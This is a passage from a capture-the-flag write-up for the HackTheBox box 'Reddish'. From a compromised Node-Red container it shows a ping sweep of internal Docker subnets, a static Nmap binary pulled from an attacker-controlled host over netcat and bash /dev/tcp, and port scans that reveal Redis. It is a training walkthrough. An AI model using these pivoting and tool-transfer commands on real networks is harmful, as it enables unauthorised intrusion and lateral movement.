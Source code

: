 So I just created an one liner to ping sweep the hosts.

```bash
# for i in $(seq 1 20); do (ping -c 1 172.18.0.$i | grep "bytes from"); done
64 bytes from 172.18.0.1: icmp_seq=1 ttl=64 time=0.065 ms
64 bytes from 172.18.0.2: icmp_seq=1 ttl=64 time=0.032 ms
# for i in $(seq 1 20); do (ping -c 1 172.19.0.$i | grep "bytes from"); done
64 bytes from 172.19.0.1: icmp_seq=1 ttl=64 time=0.106 ms
64 bytes from 172.19.0.2: icmp_seq=1 ttl=64 time=0.088 ms
64 bytes from 172.19.0.3: icmp_seq=1 ttl=64 time=0.170 ms
64 bytes from 172.19.0.4: icmp_seq=1 ttl=64 time=0.022 ms
```

- We got a few IP's and mostly .1 will be the host.
- 172.19.0.3 is our IP (Node-Red)
- 172.18.0.2 (Node-Red)
- 172.19.0.2 and 172.19.0.4 are suspicious for now.

These are my assumptions for now.

### Port Scanning using Static Nmap

We can also use a static binary of Nmap.

- [https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64](https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64)

Static Nmap requires `/etc/services` too so I copied them to the box using netcat.

```bash
root@kali:~/boxes/reddish# nc -lnvp 5555 < nmap 
listening on [any] 5555 ...
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.94] 46786
root@kali:~/boxes/reddish# nc -lnvp 5555 < services
listening on [any] 5555 ...
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.94] 46788
```

This is an easier way to transfer file.

And I got those files.

```bash
# bash -c "cat < /dev/tcp/10.10.14.30/5555 > nmap"
# bash -c "cat < /dev/tcp/10.10.14.30/5555 > services"
# cp services /etc/
```

I ran Nmap on those 2 IP's and got few port opened.

```bash
# ./nmap -p- -sT --min-rate 5000 172.19.0.2

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2020-08-19 07:42 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for reddish_composition_redis_1.reddish_composition_internal-network (172.19.0.2)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00018s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE
6379/tcp open  unknown
MAC Address: 02:42:AC:13:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 2.31 seconds
# ./nmap -p- -sT --min-rate 5000 172.19.0.4

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2020-08-19 07:42 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
```